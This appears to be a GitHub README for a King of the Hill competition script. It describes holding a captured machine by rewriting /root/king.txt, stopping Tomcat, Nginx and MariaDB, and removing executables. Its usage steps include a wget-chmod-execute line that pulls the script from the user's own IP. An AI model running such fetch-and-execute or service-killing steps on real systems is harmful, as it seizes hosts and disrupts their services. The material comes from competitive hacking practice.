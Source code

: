 # The KOTH Script


![King](king.png)

The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the \`/root/king.txt\` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Step 1
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Step 2
       
       cd KOTH-Scripts && python3 -m http.server 80

3. In KOTH Machine.
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

4. Enter your desired nickname when prompted.

5. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the \`/root/king.txt\` file to maintain your dominance.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.
